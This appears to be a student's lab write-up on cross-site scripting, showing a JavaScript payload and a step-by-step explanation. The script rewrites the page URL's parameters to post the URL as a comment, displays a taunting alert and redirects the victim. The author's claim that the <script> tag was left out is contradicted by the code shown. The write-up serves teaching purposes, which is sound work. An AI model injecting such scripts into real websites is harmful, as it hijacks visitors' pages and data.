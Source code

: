 # Lab 4, part 2: XSS

> English version



### XSS SCRIPT

```html
<script>
    let url = document.location.href;
    new_url = url.replace(/method=\w+/, 'method=1');
    new_url = new_url.replace(/user=\w+/, 'comment=' + encodeURIComponent(url));
    alert("Hahahhhhhh!!! YOU ARE ATTACKED!");
    document.location.href = new_url;
</script>
```

~ Note: To prevent unnecessary web attacks, I did not include the <script> tag in my script.

------

### DESCRIBETION

In particular, my XSS script did the following:

1. Obtained the current URL of the page and saved it in a variable named `url`.
2. Used a regular expression to replace the `method` parameter in the URL with '1' and replace the `user` parameter with `comment=` followed by the encoded current URL, and saved the modified URL in a variable named `new_url`.
3. Displayed an alert box to inform the user that they have been attacked.
4. Used the`document.location.href` property to redirect the current page to the URL specified by `new_url`.